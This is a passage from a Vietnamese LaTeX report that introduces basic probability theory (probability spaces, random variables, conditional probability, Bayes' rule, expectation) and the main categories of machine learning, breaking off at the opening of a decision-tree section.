\documentclass[../main-report.tex]{subfiles}
\begin{document}
\section{Một số lý thuyết về xác suất}
% Tham khảo: https://machinelearningcoban.com/2017/07/09/prob/
Lý thuyết xác suất là một trong những lý thuyết quan trọng nhất của khoa học hiện đại và đặc biệt là \textbf{machine learning} bởi vì đa phần các thuật toán của \gls{ml} đều có cơ sở dựa trên xác suất.

Phần dưới trình bày một số lý thuyết cơ bản được tổng hợp từ bài viết của tác giả Vũ Hữu Tiệp \citep{MLCB:xacsuat}.
\subsection{Không gian xác suất}
Khi nói đến xác suất là người ta nói đến các lý thuyết toán học về sự \textit{bất định - uncertainly} hay nói một cách khác, xác suất biểu thị khả năng xảy ra của các \textit{sự kiện - event} trong một môi trường bất định nào đó. Ví dụ xét về xác suất có mưa hay không có mưa vào thứ hai tuần tới, xác suất tỏ tình thành công hay thất bại của cậu bạn thân, \ldots Tóm lại cứ nói đến xác suất là đề cập đến sự không chắc chắn hay bất định đó.

Về mặt toán học, người ta kí hiệu một \textbf{không gian xác suất - probability space} bao gồm 3 thành phần $(\Omega, F, P)$ như sau:

\begin{itemize}
\item $\Omega$ (đọc là ``Ô-me-ga'') chính là tập các giá trị \textbf{có thể xảy ra - possible outcome} với sự kiện trong không gian xác suất gọi là \textbf{không gian mẫu}.
\item $F \subseteq 2^{\Omega}$ là tập hợp các sự kiện có thể xảy ra trong không gian xác suất.
\item $P$ là xác suất (hoặc phân phối xác suất) của sự kiện. $P$ ánh xạ một sự kiện $E \in F$ vào trong một giá trị thực $p \in \left [ 0;1 \right ]$. Ở đây gọi $p = P(E)$ là xác suất của sự kiện $E$.
\end{itemize}


Xem xét một ví dụ khá kinh điển trong lý thuyết xác suất là \textbf{tung xúc sắc}.

\begin{example} \label{ex:xuc_sac}
Giả sử rằng khi tung một con xúc sắc 6 mặt. Không gian các \textbf{outcomes} có thể xảy ra trong trường hợp này là $\Omega = \left \{ 1, 2, 3, 4, 5, 6 \right \}$ - không tính đến các trường hợp xúc sắc rơi lơ lửng tức là không thuộc mặt nào. Không gian các sự kiện $F$ sẽ tùy thuộc vào sự định nghĩa của chúng ta. Ví dụ định nghĩa sự kiện xúc sắc là mặt chẵn hoặc mặt lẻ thì không gian sự kiện $F=\left \{ \varnothing , \left \{ 1, 3, 5 \right \}, \left \{ 2, 4, 6 \right \}, \Omega \right \}$ trong đó $\varnothing$ là sự kiện có xác suất 0 - hay còn gọi là biến cố \textit{không thể có}. $\Omega$ là sự kiện có xác suất 1 - hay còn gọi là \textit{biến cố chắc chắn}.
\end{example}

%\subsection{Các tính chất xác suất}
%Giống như ví dụ ở phía trên, khi \textit{không gian mẫu - outcomes space} là hữu hạn thì chúng ta thường lựa chọn không gian sự kiện $F=2^{\Omega} = \left \{ \varnothing , \left \{ 1, 3, 5 \right \}, \left \{ 2, 4, 6 \right \}, \Omega \right \}$. Cách tiếp cận này chưa hẳn đã tổng quát hóa cho mọi trường hợp tuy nhiên nó đủ dùng trong các bài toán thực tế, tất nhiên là với giả thiết không gian mẫu của chúng ta là \textbf{hữu hạn}. Khi không gian mẫu là\textbf{ vô hạn - infinite} chúng ta phải hết sức cẩn thận trong việc lựa chọn không gian sự kiện $F$. Khi đã định nghĩa được không gian sự kiện $F$ thì hàm xác suất của chúng ta bắt buộc phải thỏa mãn các tính chất sau đây:
%
%\begin{itemize}
%\item \textbf{Không âm - non-negativity} - xác suất của mọi sự kiện là không âm, tức là với mọi $x \in F,~~ P(x)\geq 0$
%\item \textbf{Xác suất toàn cục - trivial event} $P(\Omega) = 1$
%\item \textbf{Tính cộng - additivity} tức là với mọi $x, y \in F$ nếu như $x\cap y= \varnothing$ thì ta có $P(x\cup y) = P(x) + P(y)$
%\end{itemize}

\subsection{Biến ngẫu nghiên}
\textbf{Biến ngẫu nghiên (random variables)} là một thành phần quan trọng trong lý thuyết xác suất. Biểu diễn giá trị của các đại lượng không xác định, thông thường được coi như một ánh xạ từ tập các \textbf{outcomes} trong không gian mẫu thành các giá trị thực.

%\begin{figure}[ht!]
%\centering
\includegraphics[scale=0.9]{random-variable}
%\caption{Minh họa giá trị X ánh xạ từ các tập outcomes}
%\end{figure}

Quay trở lại với ví dụ \ref{ex:xuc_sac} tung xúc sắc, gọi $X$ là biến ngẫu nhiên biểu diễn kết quả của các lần gieo xúc sắc. Một lựa chọn khá tự nhiên và đơn giản đó là: \textbf{``$\boldsymbol{X}$ là số chấm tròn trên mặt tung được''}

Chúng ta cũng có thể lựa chọn một chiến lược biểu diễn biến ngẫu nhiên $X$ khác như sau:

\begin{equation} \label{eq:ex_rand_var}
X = \left\{\begin{array}{ll}
	1 & \text{nếu}~ i~ \text{là lẻ} \\
	0 & \text{nếu}~ i~ \text{là chẵn}
	\end{array}\right.
\end{equation}

Có nghĩa là cùng một biến cố nhưng biểu diễn như thế nào là việc của mỗi người. Biến ngẫu nhiên $X$ biểu diễn như biểu thức (\ref{eq:ex_rand_var}) được gọi là \textit{binary random variables - biến nhị phân}. Biến nhị phân được sử dụng rất thông dụng trong thực tế, điển hình là \gls{ml} và thường được biết đến với tên \textbf{indicator variables}. Biến nhị phân thể hiện \textit{sự xảy ra hay không xảy ra} của một sự kiện.

\subsubsection*{Biến ngẫu nhiên rời rạc và biến ngẫu nhiên liên tục}
Có hai loại biến ngẫu nhiên đó là \textbf{biến ngẫu nhiên rời rạc} (discrete) và \textbf{biến ngẫu nhiên liên tục} (continuous).

\textbf{Biến ngẫu nhiên rời rạc} có thể hiểu một cách đơn giản là giá trị của biến thuộc một tập định trước. 
Ví dụ tung đồng xu thì có hai khả năng là head và tail \footnote{Tên gọi này bắt nguồn từ đồng xu Mỹ, một mặt có hình mặt người, được gọi là \textit{head}, trái ngược với mặt này được gọi là mặt \textit{tail}, cách gọi này hay hơn cách gọi \textit{xấp ngử}a vì ta không có quy định rõ ràng thế nào là xấp ngay ngửa.}. Tập các giá trị này có thể có thứ tự (khi tung xúc xắc) hoặc không có thứ tự, ví dụ khi đầu ra là các giá trị \textit{nắng, mưa, bão}, \ldots. Mỗi đầu ra có một giá trị xác suất tương ứng với nó. Trong \gls{ml} các giá trị này tương ứng với \textit{các phân lớp (class)}. Các giá trị xác suất này không âm và có tổng bằng một:

\begin{equation}
\sum_{\forall x}{p(x)}=1 
\end{equation}

Còn \textbf{biến ngẫu nhiên liên tục} có thể định nghĩa là các biến ngẫu nhiên mà các giá trị rơi vào một tập \textit{không biết trước}. Trong \gls{ml} người ta gọi lớp bài toán với biến ngẫu nhiên liên tục là \textbf{hồi quy}. Giá trị có thể nằm trong một khoảng hữu hạn, ví dụ như thời gian làm bài thi đại học là $t \in \left ( 0;180 \right )$ phút hoặc cũng có thể là vô hạn, ví dụ như thời gian từ bây giờ đến ngày tận thế $t \in \left ( 0; +\infty \right )$. Khi đó hàm mật độ xác suất trên toàn miền giá trị $D$ của outcomes space được định nghĩa bằng tích phân như sau:

\begin{equation}
\int_{D}p(x)dx=1
\end{equation}

\subsection{Xác suất có điều kiện}
Dựa vào phổ điểm của các học sinh, liệu ta có thể tính được xác suất để một học sinh được điểm 10 môn Lý, biết rằng học sinh đó được điểm 1 môn Toán. Hoặc biết rằng bây giờ đang là tháng 7, tính xác suất để nhiệt độ hôm nay cao hơn 30 độ C.

Xác suất có điều kiện (\textbf{conditional probability}) của một biến ngẫu nhiên $x$ biết rằng biến ngẫu nhiên $y$ có giá trị $y^{*}$ được ký hiệu là $p(x | y = y^{*})$ (đọc là ``\textit{xác suất của} $x$ \textit{biết} $y$ \textit{có giá trị} $y^{*}$'' - \textit{probability of} $x$ \textit{given that} $y$ \textit{takes value} $y^{*}$ ).

Xác suất có điều kiện \(p(x | y = y^*)\) có thể được tính dựa trên \textit{joint probobability} \(p(x, y)\) \footnote{Xác suất hợp (\textit{Joint probability}) là xác suất của hai biến cố cùng xảy ra.}. Tổng quát công thức tính như sau:

\begin{equation}
  p(x | y = y^*) = \frac{p(x, y = y^*)}{\sum_{x} p(x, y = y^*)} = \frac{p(x, y = y^*)}{p(y = y^*)}
\end{equation}

Thông thường, có thể viết xác suất có điều kiện mà không cần chỉ rõ giá trị \(y = y^*\) và công thức gọn hơn:

\begin{equation}
	p(x | y) = \frac{p(x, y)}{p(y)}
\end{equation}
  
Tương tự:

\begin{equation}
  p(y | x) = \frac{p(y, x)}{p(x)}
\end{equation}

Và từ đó có quan hệ sau:

\begin{equation} \label{eq:join_prob}
  p(x, y) = p(x | y)p(y) = p(y | x)p(x)
\end{equation}

\subsection{Quy tắc Bayes}
Công thức (\ref{eq:join_prob}) biểu diễn \textit{joint probability} theo hai cách. Từ đây ta có thể suy ra quan hệ giữa hai \textit{conditional probabilities} \(p(x |y)\) và \(p(y | x)\):

\[
  p(y | x) p(x) = p(x | y) p(y)
\]

Biến đổi:

\begin{eqnarray}
  p(y | x)
  & = & \frac{p(x | y) p(y)}{p(x)} \label{eq:bayes_1} \\
  & = & \frac{p(x | y) p(y)}{\sum_{y} p(x, y)} \label{eq:bayes_2} \\
  & = & \frac{p(x |y) p(y)}{\sum_{y} p(x | y) p(y)} \quad \label{eq:bayes_3}
\end{eqnarray}

Từ (\ref{eq:bayes_2}), có thể thấy rằng \(p(y | x)\) hoàn toàn có thể tính được nếu ta biết mọi \(p(x | y)\) và \(p(y)\). Tuy nhiên, việc tính trực tiếp xác suất này thường phức tạp. Thay vào đó, có thể tìm mô hình phù hợp của \(p(x | y)\) trên dữ liệu huấn luyện (training data) sao cho \textit{những gì đã thực sự xảy ra có xác suất cao nhất có thể}. Dựa trên dữ liệu huấn luyện, các tham số của mô hình này có thể tìm được qua một \textit{bài toán tối ưu}.

\textbf{Ba công thức (\ref{eq:bayes_1}), (\ref{eq:bayes_2}) và (\ref{eq:bayes_3}) thường được gọi là Quy tắc Bayes (Bayes' rule). Quy tắc này rất quan trọng trong \gls{ml}.}

Trong \gls{ml}, thường mô tả quan hệ giữa hai biến \(x\) và \(y\) dưới dạng xác suất có điều kiện \(p(x|y)\). Ví dụ, biết rằng đầu vào là một bức ảnh ở dạng vector \(\mathbf{x}\), xác suất để bức ảnh chứa một chiếc xe là bao nhiêu. Khi đó, phải tính \(p(y | \mathbf{x})\).

%\subsubsection*{Độc lập (Independence)}
%Nếu biết giá trị của một biến ngẫu nhiên \(x\) không mang lại thông tin về việc suy ra giá trị của biến ngẫu nhiên \(y\) (và ngược lại), thì ta nói rằng hai biến ngẫu nhiên là \emph{độc lập} (independence). Chẳng hạn, chiều cao của một học sinh và điểm thi môn Toán của học sinh đó có thể coi là hai biến ngẫu nhiên độc lập.
%
%Khi hai biến ngẫu nhiên \(x\) và \(y\) là \emph{độc lập}, ta sẽ có:
%
%
%\begin{eqnarray}
%  p(x | y) &=& p(x) \quad \\
%  p(y | x) &=& p(y)
%\end{eqnarray}
%
%
%Thay vào biểu thức Conditional Probability trong (\ref{eq:join_prob}), ta có:
%
%\begin{equation}
%	p(x, y) = p(x | y) p(y) = p(x) p(y)
%\end{equation}
\subsection{Kỳ vọng}
\textbf{Kỳ vọng (expectation)} của một biến ngẫu nhiên được định nghĩa là:

\begin{eqnarray}
  \text{E}[x] = \sum_x x p(x) \quad & \text{nếu}~ x ~ \text{là biến ngẫu nhiên rời rạc} \quad \\
  \text{E}[x] = \int x p(x) dx \quad & \text{nếu}~ x ~ \text{là biến ngẫu nhiên liên tục}
\end{eqnarray}

Giả sử \(f\) là một hàm số trả về một giá trị với mỗi giá trị \(x^*\) của biến ngẫu nhiên \(x\). Khi đó, nếu \(x\) là biến ngẫu nhiên rời rạc, ta sẽ có:

\begin{equation}
	\text{E}[f(x)] = \sum_x f(x) p(x)
\end{equation}

Công thức cho biến ngẫu nhiên liên tục cũng được viết tương tự.

Với joint probability:

\begin{equation}
\text{E}[f(x, y)] = \sum_{x,y} f(x, y) p(x, y) dx dy
\end{equation}

Có 3 quy tắc cần nhớ về kỳ vọng:

\begin{enumerate}
\item Kỳ vọng của một hằng số theo một biến ngẫu nhiên \(x\) bất kỳ bằng chính hằng số đó:

\begin{equation}
\text{E}[\alpha] = \alpha
\end{equation}

\item Kỳ vọng có tính chất tuyến tính:

\begin{eqnarray}
  \text{E}[\alpha x] & = & \alpha \text{E}[x] \quad \\
  \text{E}[f(x) + g(x)] & = & \text{E}[f(x)] + \text{E}[g(x)]
\end{eqnarray}

\item Kỳ vọng của tích hai biến ngẫu nhiên bằng tích kỳ vọng của hai biến đó \textbf{nếu hai biến ngẫu nhiên đó là độc lập}. Điều ngược lại không đúng:

\begin{equation}
\text{E}[f(x) g(y)] = \text{E}[f(x)] \text{E}[g(y)]
\end{equation}

\end{enumerate}
%\subsection{Một vài phân phối xác suất thường gặp}
%\subsubsection*{Phân phối Bernouli}
%\textbf{Phân phối Bernoulli (Bernouli distribution)} là một phân bố rời rạc mô tả biến ngẫu nhiên nhị phân: nó mô tả trường hợp khi đầu ra chỉ nhận một trong hai giá trị \(x \in \{0, 1\}\). Hai giá trị này có thể là \emph{head} và \emph{tail} khi tung đồng xu; có thể là \emph{fraud transaction} và \emph{normal transaction} trong bài toán xác định giao dịch lừa đảo trong tín dụng; có thể là \emph{người} và \emph{không phải người} trong bài toán tìm xem trong một bức ảnh có người hay không.
%
%Bernoulli distribution được mô tả bằng một tham số \(\lambda \in [0, 1]\) và là xác suất để \(x = 1\). Phân bố của mỗi đầu ra sẽ là:
%
%\begin{equation}
%p(x = 1) = \lambda, ~~~~ p(x = 0) = 1 - p(x = 1) = 1 - \lambda
%\end{equation}
%
%Hai đẳng thức này thường được viết gọn lại:
%
%\begin{equation}
%p(x) = \lambda^x (1 - \lambda)^{1 - x}
%\end{equation}
%
%với giả định rằng \(0 ^0 = 1\).
%
%Bernoulli distribution được ký hiệu ngắn gọn dưới dạng:
%\[
%  p(x) = \text{Bern}_x [\lambda]
%\]
%
%\subsubsection*{Phân phối tổng quát của Bernouli (Categorical distribution)}
%Cũng là biến ngẫu nhiên rời rạc, nhưng trong hầu hết các trường hợp, đầu ra có thể là một trong nhiều hơn hai giá trị khác nhau. Ví dụ, một bức ảnh có thể chứa một chiếc xe, một người, hoặc một con mèo. Khi đó, ta dùng phân bố tổng quát của Bernoulli distribution và được gọi là \emph{Categorical distribution}. Các đầu ra được mô tả bởi 1 phần tử trong tập \(\{1, 2, \dots, K\}\).
%
%Nếu có \(K\) đầu ra có thể đạt được, Categorical distribution sẽ được mô tả bởi \(K\) tham số, viết dưới dạng vector: \(\lambda = [\lambda_1, \lambda_2, \dots, \lambda_K]\) với các \(\lambda_k\) không âm và có tổng bằng 1. Mỗi giá trị \(\lambda_k\) thể hiện xác suất để đầu ra nhận giá trị \(k\):
%
%\[
%  p(x = k) = \lambda_k
%\]
%
%Viết gọn lại:
%
%\[
%  p(x) = \text{Cat}_x [\lambda]
%\]
%
%Biểu diễn theo cách khác, ta có thể coi như đầu ra là một vector ở dạng \emph{one-hot} vector, tức \(\mathbf{x} \in \{\mathbf{e}_1, \mathbf{e}_2, \dots, \mathbf{e}_K\}\) với \(\mathbf{e}_k\) là vector đơn vị thứ \(k\), tức tất cả các phần tử bằng 0, trừ phần tử thứ \(k\) bằng 1. Khi đó, ta sẽ có:
%
%\begin{equation}
%p(\mathbf{x} = \mathbf{e}_k) = \prod_{j=1}^K \lambda_j^{x_j} = \lambda_k
%\end{equation}
%
%Cách viết này được sử dụng rất nhiều trong Machine Learning.
%
%\subsubsection*{Phân phối chuẩn một biến (Univariate normal distribution)}
%\textbf{Phân phối chuẩn 1 biến (univariate normal hoặc Gaussian distribution)} được định nghĩa trên các biến liên tục nhận giá trị \(x \in (-\infty, \infty)\).
%
%Phân phối này được mô tả bởi hai tham số: \emph{mean} \(\mu\) và \emph{variance} \(\sigma^2\). Giá trị \(\mu\) có thể là bất kỳ số thực nào, thể hiện vị trí của \emph{peak}, tức tại đó mà hàm mật độ xác suất đạt giá trị cao nhất. Giá trị \(\sigma^2\) là một giá trị dương, với \(\sigma\) thể hiện \emph{độ rộng} của phân bố này. \(\sigma\) lớn chứng tỏ khoảng giá trị đầu ra biến đổi mạnh, và ngược lại.
%
%Hàm mật độ xác suất của phân phối này được định nghĩa là:
%
%\begin{equation}
%  p(x) = \frac{1}{\sqrt{2\pi \sigma^2}}\exp \left( -\frac{(x - \mu)^2}{2\sigma^2}\right)
%\end{equation}
%
%Dạng gọn hơn:
%
%\begin{equation}
%p(x) = \text{Norm}_x [\mu, \sigma^2]
%\end{equation}

\section{Giới thiệu machine learning}
\subsection{Khái niệm}
Trong tiếng Anh có định nghĩa về \gls{ml} như sau:

\begin{quote}
``\textbf{Machine learning} is a subset of artificial intelligence in the field of computer science that often uses statistical techniques to give computers the ability to `learn' (i.e., progressively improve performance on a specific task) with data, without being explicitly programmed'' \citep{samuel1959some}
\end{quote}

Định nghĩa trên có thể hiểu đơn giản như sau: 

\textbf{\Gls{ml}} là một lĩnh vực nhỏ của trí tuệ nhân tạo - \emph{Artificial Intelligence (AI)} trong khoa học máy tính, thường sử dụng các kĩ thuật thống kê để máy tính có khả năng ``học'' với dữ liệu, mà không cần phải lập trình cụ thể.

Tên gọi \emph{machine learning} được đặt bởi Arthur Samuel \footnote{Arthur Lee Samuel (1901 – 1990) là một nhà tiên phong người Mỹ trong lĩnh vực trò chơi máy tính và trí tuệ nhân tạo} năm 1959. Phát triển từ nghiên cứu về nhận dạng mẫu (\emph{pattern recognition}) và lý thuyết học tính toán (\emph{Computational learning theory}) trong trí tuệ nhân tạo, \gls{ml} nghiên cứu và xây dựng các thuật toán có thể học hỏi và dự đoán theo hướng dữ liệu.

\Gls{ml} có mối quan hệ rất mật thiết đối với thống kê (\textit{statistics}), sử dụng các mô hình thống kê để ``ghi nhớ'' lại sự phân bố của dữ liệu. Tuy nhiên, không đơn thuần là ghi nhớ, \gls{ml} phải có khả năng \textbf{tổng quát hóa} những gì đã được nhìn thấy và đưa ra dự đoán cho những trường hợp chưa được nhìn thấy. \Gls{ml} không giống với một đứa trẻ học vẹt, đứa trẻ học vẹt chỉ trả lời được những câu hỏi mà nó đã học thuộc lòng đáp án. Khả năng tổng quát là một khả năng tự nhiên và kì diệu của con người: bạn không thể nhìn thấy tất cả các khuôn mặt người trên thế giới nhưng bạn có thể nhận biết được một thứ có phải là khuôn mặt người hay không với xác suất đúng gần như tuyệt đối. Đỉnh cao của \gls{ml} sẽ là mô phỏng được khả năng tổng quát hóa và suy luận này của con người.

\subsection{Phân nhóm thuật toán cơ bản}
Nếu phân nhóm thuật toán \gls{ml} theo phương thức học thì có 4 nhóm cơ bản sau: học có giám sát (\emph{Supervise learning}), học không giám sát (\emph{Unsupervised learning}), học bán giám sát (\emph{Semi-supervised lerning}) và học tăng cường (\emph{Reinforcement learning}).

\subsubsection{Học có giám sát (\emph{Supervise learning})}
\textbf{Supervised learning} là thuật toán dự đoán đầu ra (\emph{outcome}) của một dữ liệu mới dựa trên các cặp (\emph{input, outcome}) đã biết từ trước. Cặp dữ liệu này còn được gọi là (\emph{data, label}), tức (dữ liệu, nhãn). Supervised learning là nhóm phổ biến nhất trong các thuật toán \gls{ml}.

Supervised learning là khi có một tập hợp biến đầu vào $ \mathcal{X} = \{\mathbf{x}_1, \mathbf{x}_2, \dots, \mathbf{x}_N\} $ và một tập hợp nhãn (\emph{label}) tương ứng \( \mathcal{Y} = \{\mathbf{y}_1, \mathbf{y}_2, \dots,\mathbf{y}_N\} \), trong đó \( \mathbf{x}_i, \mathbf{y}_i \) là các vector. 

Các cặp dữ liệu biết trước \( (\mathbf{x}_i, \mathbf{y}_i) \in \mathcal{X} \times \mathcal{Y} \) 
được gọi là tập dữ liệu huấn luyện (\emph{training data}). Từ tập traing data này, chúng ta cần tạo ra \textbf{một hàm số ánh xạ} mỗi phần tử từ tập \(\mathcal{X}\) sang một phần tử (xấp xỉ) tương ứng của tập \(\mathcal{Y}\):

\[ \mathbf{y}_i \approx f(\mathbf{x}_i), ~~ \forall i = 1, 2, \dots, N\] 

Mục đích là xấp xỉ hàm số \(f\) thật tốt để khi có một dữ liệu \(\mathbf{x}\) mới, chúng ta có thể tính được nhãn tương ứng của nó \( \mathbf{y} = f(\mathbf{x}) \).

\begin{example} \label{ex:supervised_learning}
Thuật toán tìm các khuôn mặt trong một bức ảnh đã được phát triển từ rất lâu. Thời gian đầu, Facebook sử dụng thuật toán này để \emph{chỉ ra các khuôn mặt trong một bức ảnh} và yêu cầu người dùng tag friends - tức gán nhãn cho mỗi khuôn mặt. Số lượng cặp dữ liệu (\emph{khuôn mặt, tên người}) càng lớn, độ chính xác ở những lần tự động tag tiếp theo sẽ càng lớn.
\end{example}

Thuật toán supervised learning còn được tiếp tục chia nhỏ ra thành hai loại chính tùy thuộc vào label của dữ liệu:

\begin{itemize}
\item \textbf{Phân loại (Classification)}

Một bài toán được gọi là \emph{classification} nếu các label của input data được chia thành một số hữu hạn nhóm. Ví dụ \ref{ex:supervised_learning} thuộc loại này.

\item \textbf{Hồi quy (Regression)}

Nếu label không được chia thành các nhóm mà là một giá trị thực cụ thể.

\begin{example}
Một căn nhà rộng \(x ~ \text{m}^2\), có \(y\) phòng ngủ và cách trung tâm thành phố \(z~ \text{km}\) sẽ có giá là bao nhiêu?
\end{example}
\end{itemize}

\subsubsection{Học không giám sát (\emph{Unsupervised learning})}
Trong thuật toán này, không biết được \emph{outcome} hay \emph{nhãn} mà chỉ có dữ liệu đầu vào. Thuật toán unsupervised learning sẽ dựa vào cấu trúc của dữ liệu để thực hiện một công việc nào đó, ví dụ như phân nhóm (clustering) hoặc giảm số chiều của dữ liệu (dimension reduction) để thuận tiện trong việc lưu trữ và tính toán.

Unsupervised learning là khi chỉ có dữ liệu vào \(\mathcal{X} \) mà không biết nhãn \(\mathcal{Y}\) tương ứng.

Những thuật toán loại này được gọi là Unsupervised learning vì không giống như Supervised learning, chúng ta không biết câu trả lời chính xác cho mỗi dữ liệu đầu vào.

Các bài toán Unsupervised learning được tiếp tục chia nhỏ thành hai loại:

\begin{itemize}
\item \textbf{Phân nhóm (clustering)}

Bài toán phân nhóm toàn bộ dữ liệu \(\mathcal{X}\) thành các nhóm nhỏ dựa trên sự liên quan giữa các dữ liệu trong mỗi nhóm. Ví dụ: phân nhóm khách hàng dựa trên hành vi mua hàng. Điều này cũng giống như việc ta đưa cho một đứa trẻ rất nhiều mảnh ghép với các hình thù và màu sắc khác nhau, như tam giác, vuông, tròn với màu xanh và đỏ, sau đó yêu cầu trẻ phân chúng thành từng nhóm. Mặc dù không cho trẻ biết mảnh nào tương ứng với hình nào hoặc màu nào, nhiều khả năng chúng vẫn có thể phân loại các mảnh ghép theo màu hoặc hình dạng.

\item \textbf{Association}

Là bài toán khi muốn khám phá ra một quy luật dựa trên nhiều dữ liệu cho trước. Ví dụ: những khách hàng nam mua quần áo thường có xu hướng mua thêm đồng hồ hoặc thắt lưng; những khán giả xem phim Spider Man thường có xu hướng xem thêm phim Bat Man, dựa vào đó tạo ra một hệ thống gợi ý khách hàng (Recommendation System), thúc đẩy nhu cầu mua sắm.
\end{itemize}

\subsubsection{Học bán giám sát (\emph{Semi-Supervised learning})}
Khi có một lượng lớn dữ liệu \(\mathcal{X}\) nhưng chỉ một phần trong chúng được gán nhãn được gọi là Semi-Supervised Learning. Những bài toán thuộc nhóm này nằm giữa hai nhóm được nêu bên trên.

Ví dụ điển hình của nhóm này là chỉ có một phần ảnh hoặc văn bản được gán nhãn (ví dụ bức ảnh về người, động vật hoặc các văn bản khoa học, chính trị) và phần lớn các bức ảnh/văn bản khác chưa được gán nhãn được thu thập từ internet. Thực tế cho thấy rất nhiều các bài toán \gls{ml} thuộc vào nhóm này vì việc thu thập dữ liệu có nhãn tốn rất nhiều thời gian và có chi phí cao. Rất nhiều loại dữ liệu thậm chí cần phải có chuyên gia mới gán nhãn được (như ảnh y học là một ví dụ điển hình). Ngược lại, dữ liệu chưa có nhãn có thể được thu thập với chi phí thấp từ internet.

\subsubsection{Học tăng cường (\emph{Reinforcement learning})}
Reinforcement learning là bài toán giúp cho hệ thống tự động xác định hành vi dựa trên hoàn cảnh để đạt được lợi ích cao nhất (maximizing the performance). Hiện tại, reinforcement learning chủ yếu được áp dụng vào \emph{Lý thuyết trò chơi} (Game Theory), các thuật toán cần xác định nước đi tiếp theo để đạt được điểm số cao nhất.

\begin{example}
AlphaGo gần đây nổi tiếng với việc chơi cờ vây thắng cả con người. Cờ vây được xem là có độ phức tạp cực kỳ cao với tổng số nước đi xấp xỉ \(10^{761} \), so với cờ vua là \(10^{120} \) và tổng số nguyên tử trong toàn vũ trụ là khoảng \(10^{80}\). Vì vậy, thuật toán phải chọn ra 1 nước đi tối ưu trong số hàng nhiều tỉ tỉ lựa chọn, và tất nhiên, không thể áp dụng thuật toán tương tự như \emph{IBM Deep Blue} \footnote{Deep Blue là một máy tính chơi cờ vua do IBM phát triển. Deep Blue đã chiến thắng trận đấu đầu tiên của mình với một nhà vô địch thế giới vào ngày 10 tháng 2 năm 1996}. Về cơ bản, \textbf{AlphaGo} bao gồm các thuật toán thuộc cả \emph{Supervised learning} và \emph{Reinforcement learning}. Trong phần Supervised learning, dữ liệu từ các ván cờ do con người chơi với nhau được đưa vào để huấn luyện. Tuy nhiên, mục đích cuối cùng của AlphaGo không phải là chơi như con người mà phải thậm chí thắng cả con người. Vì vậy, sau khi học xong các ván cờ của con người, AlphaGo tự chơi với chính nó với hàng triệu ván chơi để tìm ra các nước đi mới tối ưu hơn. Thuật toán trong phần tự chơi này được xếp vào loại Reinforcement learning. 
\end{example}
\section{Thuật toán cây quyết định}
\subsection{Giới thiệu}
Sắp đến kỳ thi, một sinh viên tự đặt ra quy tắc \textit{học hay chơi} của mình như sau:

\begin{itemize}
\item Nếu còn nhiều hơn hai ngày tới ngày thi, thì sẽ đi chơi.
\item Nếu còn không quá hai ngày và đêm hôm đó có một trận bóng đá, thì sẽ sang nhà bạn chơi và cùng xem bóng đêm đó.
\item Và sẽ chỉ học trong các trường hợp còn lại.
\end{itemize}

Việc ra quyết định của sinh viên này có thể được mô tả trên sơ đồ trong hình \ref{fig:dt_ex1}.

\begin{figure}[ht!]
